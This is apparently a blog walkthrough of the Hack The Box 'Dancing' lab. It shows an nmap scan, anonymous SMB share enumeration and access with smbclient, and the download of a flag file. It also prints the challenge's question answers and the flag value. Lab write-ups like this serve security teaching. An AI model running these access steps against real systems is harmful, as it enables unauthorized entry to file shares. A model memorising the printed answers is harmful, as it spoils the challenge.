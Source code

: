 ```yaml
---
layout: post
category:
    - Hack The Box
    - Tier 0
---
```


Server Message Block (SMB) is a communication protocol originally developed in 1983 by Barry A. Feigenbaum at IBM and intended to provide shared access to files and printers across nodes on a network of systems running IBM's OS/2. It also provides an authenticated inter-process communication (IPC) mechanism. In 1987, Microsoft and 3Com implemented SMB in LAN Manager for OS/2, at which time SMB used the NetBIOS service atop the NetBIOS Frames protocol as its underlying transport.


---

💻️ The Target Machine is : 10.129.192.19

---

A tip I would suggest, if you don't want to constantly retype the IP address you can opt to export the address to a variable whose name can be of your chosing. 
In turn you can call the variable as `$[variableName]` the **$** is important.
Conside the command below:
```
-$ export IP=10.129.192.19 
```
The command is entered directly into the terminal that would be currently running and will be only active in that terminal.
To test the command:
```
-$ echo $IP
10.129.192.19
```

### Answering HTB Questions 

> What does the 3-letter acronym SMB stand for?
>> server message block

> What port does SMB use to operate at? 
>> 445

> What is the service name for port 445 that came up in our Nmap scan? 
>> microsoft-ds

> What is the 'flag' or 'switch' we can use with the SMB tool to 'list' the contents of the share? 
>> -L

> How many shares are there on Dancing? 
>> 4

> What is the name of the share we are able to access in the end with a blank password?
>> workshares

> What is the command we can use within the SMB shell to download the files we find? 
>> get

  

## -------------------------| ENUMARATION PHASE |------------------------------

```
-$ sudo nmap -p- --min-rate 5000 -sV -sC $IP -v -oN scan.nmap 

---snip---

PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 4h00m44s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-11-18T10:24:27
|_  start_date: N/A

---snip---

```
**`-p-`** ==> scan all the 65535 ports.
**`-sV`** ==> Enumerate the version of the service that is open.
**`-sC`** ==> Use default scrips to enumerate certain things like the version, OS
**`-v`** ==> Show me everything that the tool is doing. Being verbose.
**`-oN`** ==> On a normal file output everything there hence the filename [initial_scan]()

## ----------------------------| EXPLOITAION |---------------------------------

With what we have discovered we can try and gain foothold on the machine.

The first thing we can start with is and assume that the password as blank:

```
-$ smbclient -L $IP

 Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk      
```
We see that there are 4 shares.
The next step is too access a share in our case we are going to access the workshares since it doesn't require any password we can pass in a blank password.

```
-$ smbclient //$IP/WorkShares

Password for [WORKGROUP\olapapi]:
Try "help" to get a list of possible commands.
smb: \> help

---snip---

blocksize      cancel         case_sensitive cd             chmod          
chown          close          del            deltree        dir            
du             echo           exit           get            getfacl        
geteas         hardlink       help           history        iosize         
lcd            link           lock           lowercase      ls             

---snip---

smb: \> ls
  .                                   D        0  Mon Mar 29 11:22:01 2021
  ..                                  D        0  Mon Mar 29 11:22:01 2021
  Amy.J                               D        0  Mon Mar 29 12:08:24 2021
  James.P                             D        0  Thu Jun  3 11:38:03 2021

smb: \> cd James.P
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 11:38:03 2021
  ..                                  D        0  Thu Jun  3 11:38:03 2021
  flag.txt                            A       32  Mon Mar 29 12:26:57 2021

smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)

```

> Submit root flag
>> 5f61c10dffbc77a704d76016a22f1664

